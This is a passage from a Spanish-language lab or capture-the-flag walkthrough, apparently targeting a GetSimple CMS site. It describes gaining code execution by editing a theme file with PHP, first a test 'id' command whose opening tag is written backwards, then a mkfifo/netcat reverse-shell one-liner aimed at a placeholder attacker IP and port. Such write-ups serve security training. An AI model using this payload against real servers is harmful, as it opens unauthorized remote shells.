 Explorando la página tratamos de validar la hipótesis de la carga de algún archivo '.php'. Sin embargo, no encontramos ninguna forma aparente de poder subir ningún archivo nuevo.

[ i ] Navegando vemos que el apartado de 'Themes'tiene una opción de 'Edit Theme', la cual nos puede llevar a introducir código malicioso en algún archivo ya existente en la Web.

![Captura](./Imágenes/13_edit_theme.png)

[ i ] Efectivamente esta opción nos lleva a la capacidad de poder editar archivos existentes.

![Captura](./Imágenes/14_page_edit.png)

---

### Explotación de vulnerabilidad - Shell Reversa

Probamos a introducir un comando de prueba, para tratar de verificar la ejecución de código en la Web, a través de archivos que cargue la propia página al actualizarse. Podemos probar introduciendo el siguiente comando al final de todo el texto existente, aparte de cualquier cuadro o tarjeta de código que pueda haber.

```bash
>?php system('id'); ?>
```

Esto enviará a alguna parte de la página (en principio dada su ubicación en el código debería ser al final de la página que carga el 'Theme' que es el principal que vemos en la URL http:/IP_objetivo:80) el resultado de ejecutar el comando `'id'`. Que es el comando que hemos introducido para ejecutar en nuestra inyección de código a través del archivo existente .php de la propia página.


![Captura](./Imágenes/15_comando.png)

[ i ] Si nos dirigimos a la ruta http:/IP_objetivo:80 o actualizamos y nos fijamos en su contenido, en alguna parte debería de verse el resultadod el comando 'id'. Justo es lo que vemos al final de la página:

[ ! ] Primero muestro el estado de la página sin la inyección de código, y a continuación su actualización con el código ejecutado.


![Captura](./Imágenes/16_home_getsimple.png)

![Captura](./Imágenes/17_comando_ok.png)


Como la ejecución de comandos ha sido exitosa. Ahora estamos en condiciones de probar a ejecutar un código considerado malicioso (por lo que determinados sistemas y configuraciones de firewall podrían mostrar alertas y/o bloquear su ejecución, esto podría pasarte si lo ejecutas en tu Sistema Operativo nativo -pongamos que en Windows o MacOS-, tenlo en cuenta si procede) como es una 'Shell Reversa'. Esto es ejecutar un código que lo que hace es enviar una shell (una terminal de comandos funcional) a la dirección IP y puerto que señalemos en él.

[ i ] Comando para enviar una `Shell Reversa`:

```bash
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <NUESTRA_IP> <PUERTO_DE_ESCUCHA> >/tmp/f") ?>
```
